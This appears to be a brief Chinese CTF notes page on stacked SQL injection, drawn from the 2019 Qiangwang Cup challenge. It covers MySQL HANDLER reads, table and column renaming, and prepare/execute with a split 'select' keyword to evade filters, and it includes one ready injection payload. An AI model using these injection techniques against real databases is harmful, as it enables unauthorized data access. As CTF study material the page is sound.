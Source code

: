 # 堆叠注入

参考[2019强网杯随便注](https://www.cnblogs.com/xhds/p/12269987.html)

## 1.通过handler语句查询users表的内容

```mysql
handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec close; #关闭句柄
```

所以可通过1';handler FlagHere open;handler FlagHere read first;#读取数据

需要通过mysql语句先获得表名，如show tables;

## 2.mysql原生语句获得表名等

```mysql
show tables;	//获得所有表名
show columns from words;	//获得列名
rename table `words` to `words1`;	//将words表名改成words1
alter table 表名 change 旧列名 新列名 类型;
alter table 表名 add 列名 数据类型;		//删除用drop 列名即可
```

## 3.Mysql预处理语句prepare、execute、set

```mysql
set @a=concat("sel","ect flag from `1919810931114514`");
prepare hello from @a;	//为上面set的sql语句取个别名
execute hello;	//执行hello即执行设置的sql语句
```

